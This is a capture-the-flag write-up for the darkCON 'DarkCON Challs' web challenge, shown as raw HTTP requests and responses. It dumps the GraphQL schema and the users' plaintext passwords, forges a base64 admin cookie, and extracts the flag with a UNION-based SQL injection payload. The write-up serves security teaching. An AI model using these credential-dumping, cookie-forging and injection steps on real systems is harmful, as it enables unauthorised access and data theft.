              "description": "Location adjacent to a field.",
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "FRAGMENT_DEFINITION",
              "description": "Location adjacent to a fragment definition.",
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "FRAGMENT_SPREAD",
              "description": "Location adjacent to a fragment spread.",
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "INLINE_FRAGMENT",
              "description": "Location adjacent to an inline fragment.",
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "VARIABLE_DEFINITION",
              "description": "Location adjacent to a variable definition.",
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "SCHEMA",
              "description": "Location adjacent to a schema definition.",
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "SCALAR",
              "description": "Location adjacent to a scalar definition.",
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "OBJECT",
              "description": "Location adjacent to an object type definition.",
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "FIELD_DEFINITION",
              "description": "Location adjacent to a field definition.",
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "ARGUMENT_DEFINITION",
              "description": "Location adjacent to an argument definition.",
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "INTERFACE",
              "description": "Location adjacent to an interface definition.",
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "UNION",
              "description": "Location adjacent to a union definition.",
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "ENUM",
              "description": "Location adjacent to an enum definition.",
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "ENUM_VALUE",
              "description": "Location adjacent to an enum value definition.",
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "INPUT_OBJECT",
              "description": "Location adjacent to an input object type definition.",
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "INPUT_FIELD_DEFINITION",
              "description": "Location adjacent to an input object field definition.",
              "isDeprecated": false,
              "deprecationReason": null
            }
          ],
          "possibleTypes": null
        }
      ],
      "directives": [
        {
          "name": "include",
          "description": "Directs the executor to include this field or fragment only when the `if` argument is true.",
          "locations": [
            "FIELD",
            "FRAGMENT_SPREAD",
            "INLINE_FRAGMENT"
          ],
          "args": [
            {
              "name": "if",
              "description": "Included when true.",
              "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                  "kind": "SCALAR",
                  "name": "Boolean",
                  "ofType": null
                }
              },
              "defaultValue": null
            }
          ]
        },
        {
          "name": "skip",
          "description": "Directs the executor to skip this field or fragment when the `if` argument is true.",
          "locations": [
            "FIELD",
            "FRAGMENT_SPREAD",
            "INLINE_FRAGMENT"
          ],
          "args": [
            {
              "name": "if",
              "description": "Skipped when true.",
              "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                  "kind": "SCALAR",
                  "name": "Boolean",
                  "ofType": null
                }
              },
              "defaultValue": null
            }
          ]
        },
        {
          "name": "deprecated",
          "description": "Marks an element of a GraphQL schema as no longer supported.",
          "locations": [
            "FIELD_DEFINITION",
            "ARGUMENT_DEFINITION",
            "INPUT_FIELD_DEFINITION",
            "ENUM_VALUE"
          ],
          "args": [
            {
              "name": "reason",
              "description": "Explains why this element was deprecated, usually also including a suggestion for how to access supported similar data. Formatted using the Markdown syntax, as specified by [CommonMark](https://commonmark.org/).",
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "defaultValue": "\"No longer supported\""
            }
          ]
        },
        {
          "name": "specifiedBy",
          "description": "Exposes a URL that specifies the behaviour of this scalar.",
          "locations": [
            "SCALAR"
          ],
          "args": [
            {
              "name": "url",
              "description": "The URL that specifies the behaviour of this scalar.",
              "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                  "kind": "SCALAR",
                  "name": "String",
                  "ofType": null
                }
              },
              "defaultValue": null
            }
          ]
        }
      ]
    }
  }
}
```

With [this site](https://apis.guru/graphql-voyager/) you can easily view the schema structure.



The ID of the challenge that should have the flag is `35`. You can try to retrieve the flag, but you will discover that you are not authorized.

```
POST /graphql HTTP/1.1
Host: darkcon-challs.darkarmy.xyz
Content-Length: 81
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://darkcon-challs.darkarmy.xyz
Referer: http://darkcon-challs.darkarmy.xyz/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: __cfduid=debb56df9ac3af6ddd05cb65280ecf14c1613856793; auth=Z3Vlc3Q6a2FybWE5ODc0
Connection: close

query=query Query { flag(chall_id: "35") { chall_id chall_title chall_flag } }

HTTP/1.1 200 OK
Date: Sun, 21 Feb 2021 09:05:58 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 24
Connection: close
X-Powered-By: Express
ETag: W/"18-jNjk7rdLlrZtB7gMvaPvqbKrjSU"
CF-Cache-Status: DYNAMIC
cf-request-id: 08656fb6f50000fa3436bff000000001
Report-To: {"group":"cf-nel","max_age":604800,"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report?s=yCWsVBVZPyaPg1dhWiD6IbgQjewru%2BKL%2FjCvzjAReoUk4nRNNo5bUvaKPqKBbSyYP0Z7%2BvYSwoubmbDMMxpknUA581ohThnEG5YjsAMJo%2F9JOlo5w%2BlW6E8qDEg%3D"}]}
NEL: {"max_age":604800,"report_to":"cf-nel"}
Server: cloudflare
CF-RAY: 624f4f04b895fa34-AMS

{
  "Err": "Not Authorized"
}
```

There is a query, `allUsers`, that can be used to retrieve users data.

```
POST /graphql HTTP/1.1
Host: darkcon-challs.darkarmy.xyz
Content-Length: 55
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://darkcon-challs.darkarmy.xyz
Referer: http://darkcon-challs.darkarmy.xyz/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: __cfduid=debb56df9ac3af6ddd05cb65280ecf14c1613856793; auth=Z3Vlc3Q6a2FybWE5ODc0
Connection: close

query=query Query { allUsers { id username password } }

HTTP/1.1 200 OK
Date: Sun, 21 Feb 2021 09:08:31 GMT
Content-Type: application/json; charset=utf-8
Connection: close
X-Powered-By: Express
ETag: W/"8f-3/OTKFdCDtZCHqY8nFfRgKUK4QI"
CF-Cache-Status: DYNAMIC
cf-request-id: 0865720b290000c79134bfe000000001
Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report?s=hrY%2FNJrx%2F%2FoROpcQ4g%2BhosyvUuio0BtjnUfBtdD%2BLtaxObdFNfwfxKpxc482AAjMy5CiEc3gBt37Xi9PjASMs%2Fb7qoX0sd5SPdzIpRLnvQUzvU7NaWGDMq3vGLU%3D"}],"group":"cf-nel","max_age":604800}
NEL: {"max_age":604800,"report_to":"cf-nel"}
Server: cloudflare
CF-RAY: 624f52bead3cc791-AMS
Content-Length: 143

{
  "data": {
    "allUsers": [
      {
        "id": "1",
        "username": "guest",
        "password": "karma9874"
      },
      {
        "id": "2",
        "username": "admin",
        "password": "is_this_visible_to_you?"
      }
    ]
  }
}
```

So you can craft the authentication cookie for the administrator.

```
admin:is_this_visible_to_you?

YWRtaW46aXNfdGhpc192aXNpYmxlX3RvX3lvdT8
```

And then retrieve the data for the challenge.

```
POST /graphql HTTP/1.1
Host: darkcon-challs.darkarmy.xyz
Content-Length: 81
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://darkcon-challs.darkarmy.xyz
Referer: http://darkcon-challs.darkarmy.xyz/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: __cfduid=debb56df9ac3af6ddd05cb65280ecf14c1613856793; auth=YWRtaW46aXNfdGhpc192aXNpYmxlX3RvX3lvdT8
Connection: close

query=query Query { flag ( chall_id: "35" ) { chall_id chall_title chall_flag } }

HTTP/1.1 200 OK
Date: Sun, 21 Feb 2021 09:13:58 GMT
Content-Type: application/json; charset=utf-8
Connection: close
X-Powered-By: Express
ETag: W/"5c-FgbC+3HIALyZvUNnISTqvCAIlgA"
CF-Cache-Status: DYNAMIC
cf-request-id: 086577087500004c2c159c4000000001
Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report?s=6h11qMw3Y546CXaKDdJSZe%2FOmVxxY1%2Fm3cTVwaCJUuXgedZM8chxABojF6e1cClTueTwq1%2BmLVvdPfLZEZ%2Bb78nHOTGcBJ%2FUkV%2FfiOeVtrmF4WceuxTLwtsHqaQ%3D"}],"max_age":604800,"group":"cf-nel"}
NEL: {"max_age":604800,"report_to":"cf-nel"}
Server: cloudflare
CF-RAY: 624f5aba589a4c2c-AMS
Content-Length: 92

{
  "data": {
    "flag": {
      "chall_id": "35",
      "chall_title": "DarkCON Challs",
      "chall_flag": "<REDACTED>"
    }
  }
}
```

You can read hint data too.

```
POST /graphql HTTP/1.1
Host: darkcon-challs.darkarmy.xyz
Content-Length: 80
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://darkcon-challs.darkarmy.xyz
Referer: http://darkcon-challs.darkarmy.xyz/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: __cfduid=debb56df9ac3af6ddd05cb65280ecf14c1613856793; auth=YWRtaW46aXNfdGhpc192aXNpYmxlX3RvX3lvdT8
Connection: close

query=query Query { hint ( chall_id: "35" ) { chall_id chall_title take_hint } }

HTTP/1.1 200 OK
Date: Sun, 21 Feb 2021 09:21:11 GMT
Content-Type: application/json; charset=utf-8
Connection: close
X-Powered-By: Express
ETag: W/"5f-kGQLeohKMlOd7rZnywCxmrcAeaw"
CF-Cache-Status: DYNAMIC
cf-request-id: 08657da46500001ecec2891000000001
Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report?s=jKrMx7IUq0mRbVR8BH2xQxXSUOMX4oiWU9Ked9k9BOLre3%2Bo5xvakSY7uVPlK%2BpQW2wMotsfDoYDfDTm9IGLUXIDp7N0LGT54vNR9ZtpfH8qnmhRQVQQOcrkR8g%3D"}],"group":"cf-nel","max_age":604800}
NEL: {"max_age":604800,"report_to":"cf-nel"}
Server: cloudflare
CF-RAY: 624f654d6d691ece-AMS
Content-Length: 95

{
  "data": {
    "hint": {
      "chall_id": "35",
      "chall_title": "DarkCON Challs",
      "take_hint": "want_hint? @_@"
    }
  }
}
```

You can dump all challenges data, but there is no flag at all.

```
POST /graphql HTTP/1.1
Host: darkcon-challs.darkarmy.xyz
Content-Length: 117
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://darkcon-challs.darkarmy.xyz
Referer: http://darkcon-challs.darkarmy.xyz/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: __cfduid=debb56df9ac3af6ddd05cb65280ecf14c1613856793; auth=YWRtaW46aXNfdGhpc192aXNpYmxlX3RvX3lvdT8
Connection: close

query=query Query { Challs { id title description category author points flag { chall_id chall_title chall_flag } } }

HTTP/1.1 200 OK
Date: Sun, 21 Feb 2021 09:29:48 GMT
Content-Type: application/json; charset=utf-8
Connection: close
X-Powered-By: Express
ETag: W/"2a32-2n12reS6ATDeNILvzTr5/2ptQz4"
CF-Cache-Status: DYNAMIC
cf-request-id: 08658588b700001fea52990000000001
Report-To: {"group":"cf-nel","endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report?s=XwVT9kHvg7bADUmTe2OVwHeWOmQOuK9QDgbCGlEvlYKrKQ6UW%2BZm57PXIKA%2BDP%2BZP%2Bg8rGqbGyUxa6eUXeIruJFB6ymFQADK%2BKUx%2FxBvr6tady3%2F7DiNDG%2BTb0I%3D"}],"max_age":604800}
NEL: {"report_to":"cf-nel","max_age":604800}
Server: cloudflare
CF-RAY: 624f71edf9b51fea-AMS
Content-Length: 10802

{
  "data": {
    "Challs": [
      {
        "id": "1",
        "title": "Read",
        "description": "Reading is the best way to solve a challenge",
        "category": "Rev",
        "author": "1GN1tE",
        "points": 500,
        "flag": {
          "chall_id": "1",
          "chall_title": "Read",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "2",
        "title": "(Not) Easy",
        "description": "You know what to do... More info inside :wink:\r\n",
        "category": "Rev",
        "author": "1GN1tE",
        "points": 500,
        "flag": {
          "chall_id": "2",
          "chall_title": "(Not) Easy",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "3",
        "title": "ezpz",
        "description": "Some easy android for ya :)",
        "category": "Rev",
        "author": "karma",
        "points": 500,
        "flag": {
          "chall_id": "3",
          "chall_title": "ezpz",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "4",
        "title": "Pixelify",
        "description": "Pixels don't reveal secrets, or do they?",
        "category": "Misc",
        "author": "1GN1tE, RDxR10",
        "points": 500,
        "flag": {
          "chall_id": "4",
          "chall_title": "Pixelify",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "5",
        "title": "Camouflage",
        "description": "General: We've got the hideouts. From here on out, hear out!\r\nYou: Roger! ",
        "category": "Misc",
        "author": "RDxR10",
        "points": 500,
        "flag": {
          "chall_id": "5",
          "chall_title": "Camouflage",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "6",
        "title": "Take It Easy",
        "description": "None",
        "category": "Crypto",
        "author": "ArM4d4",
        "points": 500,
        "flag": {
          "chall_id": "6",
          "chall_title": "Take It Easy",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "7",
        "title": "MITM",
        "description": "Bob Wants the secret code from the alice . After getting the secret code from alice, bob sends his secret code to alice. Can you find the secret codes of alice and bob?",
        "category": "Crypto",
        "author": "manish",
        "points": 500,
        "flag": {
          "chall_id": "7",
          "chall_title": "MITM",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "8",
        "title": "Tony And James",
        "description": "Attachments",
        "category": "Crypto",
        "author": "r3yc0n1c",
        "points": 500,
        "flag": {
          "chall_id": "8",
          "chall_title": "Tony And James",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "9",
        "title": "Disguised Wordlets",
        "description": "Order amidst the chaos, that's what you need to seek.\r\n\r\nNOTE : separate the words in the flag by underscores (lowercase)\r\nFormat : darkCON{flag}",
        "category": "Crypto",
        "author": "RDxR10",
        "points": 500,
        "flag": {
          "chall_id": "9",
          "chall_title": "Disguised Wordlets",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "10",
        "title": "Easy-ROP",
        "description": "Welcome to the world of pwn!!! This should be a good entry level warmup challenge !!",
        "category": "Pwn",
        "author": "manish",
        "points": 500,
        "flag": {
          "chall_id": "10",
          "chall_title": "Easy-ROP",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "11",
        "title": "warmup",
        "description": "warm up yourself and get a shell!",
        "category": "Pwn",
        "author": "Bitfriends",
        "points": 500,
        "flag": {
          "chall_id": "11",
          "chall_title": "warmup",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "12",
        "title": "Meme_Stash",
        "description": "White Wolf cloned this website for some memes while browsing some memes he stumbled upon the flag but now he is not able to find it can you help him",
        "category": "Web",
        "author": "Karma",
        "points": 500,
        "flag": {
          "chall_id": "12",
          "chall_title": "Meme_Stash",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "13",
        "title": "WTF PHP",
        "description": "Your php function didnt work? maybe some info will help you xD Note: flag is in /etc",
        "category": "Web",
        "author": "Karma",
        "points": 500,
        "flag": {
          "chall_id": "13",
          "chall_title": "WTF PHP",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "14",
        "title": "Easy PHP",
        "description": "Please note....",
        "category": "Web",
        "author": "Rosee",
        "points": 500,
        "flag": {
          "chall_id": "14",
          "chall_title": "Easy PHP",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "15",
        "title": "The Reporter",
        "description": "Miss Lola beck has something on her social media account. You are Agent P. find the secret.",
        "category": "Osint",
        "author": "trish56",
        "points": 500,
        "flag": {
          "chall_id": "15",
          "chall_title": "The Reporter",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "16",
        "title": "Travel to the home",
        "description": "I Travelled from MAS to CBE at 10 Jan 2020 (Any direction) and i took a beautiful picture while travelling\r\nFind the Exact location (co-ordinates upto 3 decimal point) and approximate time while i took the pick\r\nFlag format will be {lat,long,time} for time it is 1 hour duration like (01-02)",
        "category": "Osint",
        "author": "Kick",
        "points": 500,
        "flag": {
          "chall_id": "16",
          "chall_title": "Travel to the home",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "17",
        "title": "Scattered Pieces",
        "description": "Some suspicious stuff going on the network can you figure it out ?",
        "category": "Forensics",
        "author": "White_Wolf",
        "points": 500,
        "flag": {
          "chall_id": "17",
          "chall_title": "Scattered Pieces",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "18",
        "title": "Do you know them?",
        "description": "\"Answer These Quesions: 1. last folder modified 2. last keyword searched 3. last link entered Flag format: darkCON{last folder modified_last keyword searched_last link entered}\r\n\"",
        "category": "Forensics",
        "author": "White_Wolf",
        "points": 500,
        "flag": {
          "chall_id": "18",
          "chall_title": "Do you know them?",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "19",
        "title": "CyberDark_0x01: ShitComp",
        "description": "\"Goldhand:    Hey I want to play the new game `CyberDark`, it's so cool. But I have a problem... I want you to hack the game installer.\r\n\r\nV:            Here to staisfy ur needs\r\n\r\nGoldhand:    Ok I am giving you the Installer after changing it with my own compressor `ShitComp`... Crack the Installe",
        "category": "Rev",
        "author": "1GN1tE",
        "points": 500,
        "flag": {
          "chall_id": "19",
          "chall_title": "CyberDark_0x01: ShitComp",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "20",
        "title": "CyberDark_0x02: Installer",
        "description": "\"Goldhand:    So you have proven you worth.\r\n\r\nV:            Told Ya\r\n\r\nGoldHand:     Now send me the keys... nc <host> <port>\"",
        "category": "Rev",
        "author": "1GN1tE",
        "points": 500,
        "flag": {
          "chall_id": "20",
          "chall_title": "CyberDark_0x02: Installer",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "21",
        "title": "TOO_MUCH",
        "description": "How about reversing 200 functions at once?? Try yourself!!!",
        "category": "Rev",
        "author": "Manish",
        "points": 500,
        "flag": {
          "chall_id": "21",
          "chall_title": "TOO_MUCH",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "22",
        "title": "Web + Crypto",
        "description": "Made this website where you can read files Note: Flag at /etc/flag.txt",
        "category": "Misc",
        "author": "karma",
        "points": 500,
        "flag": {
          "chall_id": "22",
          "chall_title": "Web + Crypto",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "23",
        "title": "PokePark - Raising New Generat",
        "description": "nc Connection ",
        "category": "Crypto",
        "author": "r3yc0n1c",
        "points": 500,
        "flag": {
          "chall_id": "23",
          "chall_title": "PokePark - Raising New Generat",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "24",
        "title": "Rookie's_Choice_4_you",
        "description": "Attachments",
        "category": "Crypto",
        "author": "r3yc0n1c",
        "points": 500,
        "flag": {
          "chall_id": "24",
          "chall_title": "Rookies_Choice_4_you",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "25",
        "title": "NO-Output",
        "description": "\"Ok !!! This challenge doesn't give any output. Now try to get the shell.\r\n\r\nThe libc has tcache enabled and you don't require libc for this challenge at all. This challenge can be done without having libc. You don't need to guess or bruteforce libc.\"",
        "category": "Pwn",
        "author": "manish",
        "points": 0,
        "flag": {
          "chall_id": "25",
          "chall_title": "NO-Output",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "26",
        "title": "FS-2",
        "description": "I patched all the vulnerabilities. Now you can't exploit my service.",
        "category": "Pwn",
        "author": "manish",
        "points": 500,
        "flag": {
          "chall_id": "26",
          "chall_title": "FS-2",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "27",
        "title": "wrong location",
        "description": "I think I am at the wrong location. We need to get home, to root !",
        "category": "Pwn",
        "author": "Bitfriends",
        "points": 500,
        "flag": {
          "chall_id": "27",
          "chall_title": "wrong location",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "28",
        "title": "Capture the Meme",
        "description": "Made this meme generator for ya :) hope you like some memes Note: Flag at /etc/flag.txt",
        "category": "Web",
        "author": "Karma",
        "points": 500,
        "flag": {
          "chall_id": "28",
          "chall_title": "Capture the Meme",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "30",
        "title": "Find her Boyfriend",
        "description": "\"You know Lola, right? She met her boyfriend few days ago and after that he just vanished. She tried to contact him by every means but failed. The last thing she remembers is her bf texting someone.\r\nSubmit the flag in flag format.\"",
        "category": "Osint",
        "author": "trish56",
        "points": 500,
        "flag": {
          "chall_id": "30",
          "chall_title": "Find her Boyfriend",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "31",
        "title": "Mr.Wolf Darkest Secret",
        "description": "Can you find Mr.Wolf's Darkest Secret he was trying to access some other system and wants to hide something from everyone",
        "category": "Forensics",
        "author": "White_Wolf",
        "points": 500,
        "flag": {
          "chall_id": "31",
          "chall_title": "Mr.Wolf Darkest Secret",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "32",
        "title": "Fire in the androidddddddd",
        "description": "To decrypt something we need encrypted stuff",
        "category": "Rev",
        "author": "Karma",
        "points": 500,
        "flag": {
          "chall_id": "32",
          "chall_title": "Fire in the androidddddddd",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "33",
        "title": "Risk Security Analyst Alice Vs",
        "description": "\"La Casa De Tuple (L.C.D.T) is a Company in Spain which provides their \r\nown End-to-end encryption services and Alice got a job there. It was \r\nher first day and her boss told her to manage the **secrets** and \r\nencrypt the user data with their new End-to-end encryption system. \r\nYou are Eve and you",
        "category": "Crypto",
        "author": "r3yc0n1c",
        "points": 500,
        "flag": {
          "chall_id": "33",
          "chall_title": "Risk Security Analyst Alice Vs",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "34",
        "title": "house of the rising sun",
        "description": "There is a house in new orleans, they call the rising sun... Beautiful song, but now get that shell! Note that some libc functions might not work ;)",
        "category": "Pwn",
        "author": "Bitfriends",
        "points": 500,
        "flag": {
          "chall_id": "34",
          "chall_title": "house of the rising sun",
          "chall_flag": "darkCON{fake_flag}"
        }
      },
      {
        "id": "35",
        "title": "DarkCON Challs",
        "description": "\"A place where you can see all the challs of darkCON CTF using api but not the flag or can you @_@ ?\r\nPS :- Try to get the flag of this chall xD\"",
        "category": "Web",
        "author": "Karma",
        "points": 500,
        "flag": {
          "chall_id": "35",
          "chall_title": "DarkCON Challs",
          "chall_flag": "<REDACTED>"
        }
      },
      {
        "id": "36",
        "title": "XXX - The Return of Mr. X",
        "description": "\"Mr. X is a wanted criminal and he has no one in the world except his true love, Lola.\r\nNo one knows the real identity of Mr. X. FBI got some tip that he is related to the \r\nmastermind behind the recent attack. The Case Details has been attached here:\r\n\r\nGood Luck!\r\n\r\nNote: The flag of Find her Boyf",
        "category": "Osint",
        "author": "rey & 1gn1te",
        "points": 500,
        "flag": {
          "chall_id": "36",
          "chall_title": "XXX - The Return of Mr. X",
          "chall_flag": "darkCON{fake_flag}"
        }
      }
    ]
  }
}
```

With the following payload, you can discover a SQL error.

```
POST /graphql HTTP/1.1
Host: darkcon-challs.darkarmy.xyz
Content-Length: 81
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://darkcon-challs.darkarmy.xyz
Referer: http://darkcon-challs.darkarmy.xyz/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: __cfduid=debb56df9ac3af6ddd05cb65280ecf14c1613856793; auth=YWRtaW46aXNfdGhpc192aXNpYmxlX3RvX3lvdT8
Connection: close

query=query Query { hint ( chall_id: "35'" ) { chall_id chall_title take_hint } }

HTTP/1.1 200 OK
Date: Sun, 21 Feb 2021 09:47:19 GMT
Content-Type: application/json; charset=utf-8
Connection: close
X-Powered-By: Express
ETag: W/"108-NZbWOfSMrAJ2+1qgQ2cPuzsGX7s"
CF-Cache-Status: DYNAMIC
cf-request-id: 0865958fff00004c736b18c000000001
Report-To: {"max_age":604800,"group":"cf-nel","endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report?s=hmJ9QYqbhHXtjXMnMPPQBgkKr4Ig0CI%2BkIUd7r0763iQy3t7%2F5XQX2rAleiqsO9wFZFI1eUSuVXvzJoN91kz1KRGJ1Hvy5fvgemOpsDy5ORNNM1rwd6s1Q3Hh4c%3D"}]}
NEL: {"report_to":"cf-nel","max_age":604800}
Server: cloudflare
CF-RAY: 624f8b9339494c73-AMS
Content-Length: 264

{
  "errors": [
    {
      "message": "ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1",
      "locations": [
        {
          "line": 1,
          "column": 15
        }
      ],
      "path": [
        "hint"
      ]
    }
  ],
  "data": {
    "hint": null
  }
}
```

So you can craft a SQL injection payload discovering the flag.

```
POST /graphql HTTP/1.1
Host: darkcon-challs.darkarmy.xyz
Content-Length: 161
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://darkcon-challs.darkarmy.xyz
Referer: http://darkcon-challs.darkarmy.xyz/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: __cfduid=debb56df9ac3af6ddd05cb65280ecf14c1613856793; auth=YWRtaW46aXNfdGhpc192aXNpYmxlX3RvX3lvdT8
Connection: close

query=query Query { hint ( chall_id: "42 union select chall_flag, chall_flag, chall_flag from flags where chall_id = 35 #" ) { chall_id chall_title take_hint } }

HTTP/1.1 200 OK
Date: Sun, 21 Feb 2021 09:54:39 GMT
Content-Type: application/json; charset=utf-8
Connection: close
X-Powered-By: Express
ETag: W/"a4-nfAnFQC4hhaQdXace1gD2OM4PsU"
CF-Cache-Status: DYNAMIC
cf-request-id: 08659c47e20000bda5d92fe000000001
Report-To: {"max_age":604800,"group":"cf-nel","endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report?s=QDqpjgWIsR%2FPXLe73l5GSBJuQDppBqeXCCsA404pRVGV1xSABKgOF%2BF4d6dNkViC%2B7Y%2F1kdyUkT1ZjYrGFdgFm3Xfgx1xZEYIC%2Fscd98bhNG8daqhOXhXefQzcg%3D"}]}
NEL: {"max_age":604800,"report_to":"cf-nel"}
Server: cloudflare
CF-RAY: 624f9652f84dbda5-AMS
Content-Length: 164

{
  "data": {
    "hint": {
      "chall_id": "darkCON{w0ww_y0u_re411y_f0und_m3}",
      "chall_title": "darkCON{w0ww_y0u_re411y_f0und_m3}",
      "take_hint": "darkCON{w0ww_y0u_re411y_f0und_m3}"
    }
  }
}
```

The flag is the following.

```
darkCON{w0ww_y0u_re411y_f0und_m3}
```